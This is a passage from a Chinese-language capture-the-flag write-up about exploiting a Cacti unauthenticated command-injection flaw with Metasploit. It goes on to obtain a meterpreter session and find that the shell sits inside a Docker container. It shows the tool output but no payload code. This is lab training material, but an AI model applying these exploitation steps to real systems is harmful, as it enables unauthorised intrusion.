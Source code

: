 想升为交互shell来着不过没装python，暂时先将就着了。
```bash
bash-5.1$ which python python2 python3
which python python2 python3
bash-5.1$ 
```

#### 方法2：metasploit

谷歌的时候发现metasploit也有exp
> <https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/>

不过最开始试了试也不行，主要是两种报错：

1. 开启nc监听的话就会报错本地端口被占用（太久不用msf人都傻了，似乎本身就不用另外开启监听……）
1. 显示利用成功但是没建立连接（报错信息如下）

        [*] Command Stager progress - 100.00% done (1118/1118 bytes)
        [*] Exploit completed, but no session was created.


*后来偶然多试几次就可以了……有点迷。看来以后出现上述报错信息的话就说明利用是成功的只是得多试几次？*

```bash
meterpreter > getuid
Server username: www-data
```


## docker容器

稍微探索了一下什么都没发现，家目录没东西，很多命令如`sudo`、`ifconfig`都没有，直接`find`命令搜user.txt也找不到flag。感觉有点不同于一般easy机器的套路。

狡猾地用Meterpreter连上去收集一下信息，发现有172.19的IP——这是docker的默认网段之一。于是直接跑去根目录看看是否有 `.dockerenv` 文件，结果果然是在docker容器里啊。

*后来看了下LinPEAS是如何收集网络信息的：查看 `/etc/hosts` 文件。*

```bash
meterpreter > sysinfo
Computer     : 172.19.0.3
OS           : Debian 11.5 (Linux 5.4.0-147-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux

meterpreter > ifconfig
Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0

Interface  8
============
Name         : eth0
Hardware MAC : 02:42:ac:13:00:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.19.0.3
IPv4 Netmask : 255.255.0.0


meterpreter > ls
Listing: /
==========
```